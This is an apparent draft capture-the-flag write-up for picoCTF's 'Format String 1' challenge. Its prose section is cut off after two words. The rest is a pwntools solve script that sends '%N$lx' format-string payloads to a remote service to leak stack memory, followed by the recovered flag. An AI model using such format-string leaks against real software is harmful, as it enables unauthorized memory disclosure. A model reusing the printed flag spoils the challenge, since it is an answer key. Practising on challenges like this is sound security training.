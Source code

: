 ```yaml
---
title: "Format String 1 (picoCTF 2024)"
summary: "Easy pwn chal - format string vuln"
description: "Easy pwn chal - format string vuln"
tags: [pwn, easy, writeup]
date: 2023-04-23T22:00:00-05:00
draft: true
searchHidden: false
ShowToc: true
TocOpen: false
hidemeta: false
# weight: 1
---
```


## Description

Patrick and Sponge Bob were really happy with those orders you made for them, but now they're curious about the secret menu. Find it, and along the way, maybe you'll find something else of interest!

Given files: [format-string-1](/picoctf-format-string-1/format-string-1) [format-string-1.c](/picoctf-format-string-1/format-string-1.c)

---

## Writeup

The first 


### Solve script

```py
from pwn import *

elf = ELF('./format-string-1')

host = <'host'>
port = <port>
# p = remote(host, port)

s = ""
orders = []
for i in range (14,30):
    p = remote(host, port)
    # p = elf.process()
    format_s = b"".join([b"%" + str(i).encode("utf-8") + b"$lx"])
    p.recvuntil(b":")
    p.sendline(format_s)
    out = p.recvall().decode('utf-8').strip().split(" ")[3].splitlines()[0]
    orders.append(out)

orders.reverse()
print(orders)
print(''.join(orders))
```

## Flag

`picoCTF{4n1m41_57y13_4x4_f14g_e11e8018}`

---